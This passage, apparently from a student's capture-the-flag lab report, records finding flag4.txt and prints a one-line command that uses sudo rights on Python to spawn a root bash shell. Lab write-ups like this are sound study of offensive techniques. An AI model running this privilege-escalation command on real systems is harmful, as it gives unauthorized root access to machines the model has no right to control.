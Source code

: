 ![flag 3](https://github.com/thejohnkelly/FinalProjectReport/blob/main/screen_grabs/Red%20vs%20Blue/flag3_file.png)


  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Sudo privleges to run Python allowed root access through Python shell exploit
        ```bash
        $ sudo python -c 'import pty; pty.spawn("/bin/bash")'
        ```

![flag 4](https://github.com/thejohnkelly/FinalProjectReport/blob/main/screen_grabs/Red%20vs%20Blue/flag4_file.png)
